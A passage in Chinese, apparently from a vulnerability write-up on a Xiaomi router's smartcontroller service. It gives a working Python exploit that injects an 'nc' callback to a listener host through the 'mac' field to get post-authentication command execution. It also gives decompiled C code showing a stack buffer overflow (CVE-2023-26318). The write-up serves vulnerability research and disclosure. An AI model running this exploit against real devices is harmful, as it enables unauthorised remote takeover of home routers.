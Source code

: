   
然后，我们需要使用命令来启动这个场景scene_start_by_crontab。  
  
```
{
    "command":"scene_start_by_crontab",
    "time":"2:2",
    "week":0
}
```  
  
  
可以编写一个简单的Python脚本来利用该漏洞：  
  
```
import requests
 
AUTH_TOKEN = "bd3ff46458f812a97b4e9f10945c6ce5"
 
URL = f"http://192.168.31.1/cgi-bin/luci/;stok={AUTH_TOKEN}/api/xqsmarthome/request_smartcontroller"
 
command = "nc 192.168.31.161 4242"
 
requests.post(URL, data={
    "payload":'{"command":"scene_setting","name":"it3","action_list":[{"thirdParty":"xmrouter","delay":17,"type":"wan_block","payload":{"command":"wan_block","mac":";' + command + ';#"}}],"launch":{"timer":{"time":"2:2","repeat":"0","enabled":true}}}'
})
requests.post(URL, data={
    "payload":'{"command":"scene_start_by_crontab","time":"2:2","week":0}'
})
```  
  
  
这样，我们就可以收到与侦听器的连接：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taexa7YMMkONpKcUPiaiaVwdsc2J8RJBpM6Jxn6ZNf44IAcUke3JnNTxO5bTmsvxg2rWU0zUYMVpSICw/640?wx_fmt=png&from=appmsg "")  
  
通过二进制system文件中的注入/usr/sbin/smartcontroller，我们现在可以验证另一个 LAN 授权后 RCE 漏洞，这次不是重复的！  
  
  
**端点/api/xqsmarthome/request_smartcontroller- 堆栈缓冲区溢出 (CVE-2023-26318)**  
  
在与上述漏洞相同的代码部分中，我们可以看到它smartcontroller也容易受到堆栈缓冲区溢出的影响。该mac参数是用户控制的，使用 直接注入到堆栈缓冲区中，这意味着不检查sprintf()复制到的字符串的长度。cmd_buffer  
  
```
// the `mac` parameter is user controlled
int32_t run_sysapi_macfilter(char* mac, int32_t enabled)
{
    char* const yes_no;
    char cmd_buffer[0x64];
    memset(&cmd_buffer, 0, 0x64);
    
    if (enable != 0)
    {
        yes_no = "no";
    }
    else
    {
        yes_no = "yes";
    }
 
    // `mac` is directly injected into the `cmd_buffer` (stack buffer) without length check! 
    sprintf(&cmd_buffer,
            "/usr/sbin/sysapi macfilter set mac=%s wan=%s;/usr/sbin/sysapi macfilter commit",
            mac,
            a3);  
    return run_cmd(&cmd_buffer);
```